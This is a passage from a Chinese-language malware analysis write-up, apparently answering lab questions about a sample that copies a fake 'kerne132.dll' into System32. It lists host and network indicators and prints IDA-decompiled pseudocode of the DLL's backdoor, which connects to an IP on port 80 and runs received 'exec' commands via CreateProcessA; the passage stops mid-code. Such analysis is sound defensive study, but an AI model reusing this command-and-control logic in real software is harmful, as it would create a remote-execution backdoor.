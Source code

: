 ```python
        print(f"{hex(ins.address)}:\t{ins.mnemonic}\t{ins.op_str}")
```

```
CALLED POS 0 ==> 749
0x17e5: push    edx
0x17e6: call    esi
0x17e8: push    0
0x17ea: push    0x40304c
0x17ef: push    0x40307c
0x17f4: call    dword ptr [0x402024]
```

通过之前对链接库的分析，我们知道这个字符串作为 `0x402024` 这个函数（即 `CopyFileA`）的参数进行了调用。

### 结论

综上，我们还可以通过 `C:/Windows/System32` 这个文件夹下是否存在 `kerne132.dll` 这个文件来判断主机是否被感染。

## QUESTION 6

> What network-based indicators could be used to find this malware on infected machines?

根据前面的分析，可执行文件通过将动态链接库复制到 `C:/Windows/System32` 这个文件夹下，然后通过这个动态链接库进行进程、网络相关的动作，因此我们分析这个动态链接库。`.data` 段全局字符串：

![01.dll.PEexplorer.data](../../../.gitbook/assets/01.dll.PEexplorer.data.png)

其中 `exec` 和一个 `127.26.152.13` 这个为 IP 地址格式的字符串非常可疑。为了分析该动态链接库的网络特征，我们查找调用第二个字符串的位置 `.text:100010A3`，使用 `IDA Pro` 分析出以下的伪代码：

```c
//...
v3 = socket(2, 1, 6);
if ( v3 != -1 )
{
    name.sa_family = 2;
    *(_DWORD *)&name.sa_data[2] = inet_addr(cp);
    *(_WORD *)name.sa_data = htons(0x50u);
    if ( connect(v3, &name, 16) != -1 )
    {
        while ( send(v3, ::buf, strlen(::buf), 0) != -1 && shutdown(v3, 1) != -1 )
        {
            if ( recv(v3, &buf, 4096, 0) > 0 )
            {
                if ( !strncmp(Str1, &buf, 5u) )
                {
                    Sleep(0x60000u);
                }
                else if ( !strncmp(aExec, &buf, 4u) )
                {
                    memset(&StartupInfo, 0, sizeof(StartupInfo));
                    StartupInfo.cb = 68;
                    CreateProcessA(0, &CommandLine, 0, 0, 1, 0x8000000u, 0, 0, &StartupInfo, &ProcessInformation);
                }
                else
                {
                    if ( buf == 113 )
                    {
                        CloseHandle(hObject);
                        break;
```